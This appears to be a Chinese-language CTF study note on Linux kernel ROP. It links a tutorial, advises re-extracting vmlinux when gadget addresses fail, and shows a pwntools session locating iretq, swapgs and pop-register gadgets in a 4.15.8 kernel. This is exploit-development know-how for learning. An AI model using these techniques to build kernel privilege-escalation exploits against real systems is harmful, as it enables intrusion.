* [【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF - arttnba3's blog](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x01-Kernel-ROP-basic)

​

报错解决:

如果执行后报错,大概率是gadgets的地址弄错了,重新从BzImage里面提取vmlinux在去获取Gadget!也可以直接使用pwntools工具来搜索:

```
ub20@ub20:~/KernelStu/KernelVuln/Kernel_ROP_basic/give_to_player$ python
Python 3.8.10 (default, Feb  4 2025, 15:02:54) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> e = ELF('./vmlinux')
[*] '/home/ub20/KernelStu/KernelVuln/Kernel_ROP_basic/give_to_player/vmlinux'
    Arch:       amd64-64-little
    Version:    4.15.8
    RELRO:      No RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0xffffffff81000000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
>>> context.arch = 'amd64'
>>> hex(e.search(asm('iretq')).__next__())
'0xffffffff81040a52'
>>> hex(e.search(asm('pop rdi; ret')).__next__())
'0xffffffff81000e40'
>>> hex(e.search(asm('mov rdi, rax; call rdx')).__next__())
'0xffffffff8100d054'
>>> hex(e.search(asm('pop rdx; ret')).__next__())
'0xffffffff810282f1'
>>> hex(e.search(asm('pop rcx; ret')).__next__())
'0xffffffff810ca8f0'
>>> hex(e.search(asm('swapgs; popfq; ret')).__next__())
'0xffffffff818012da'
>>> 
```
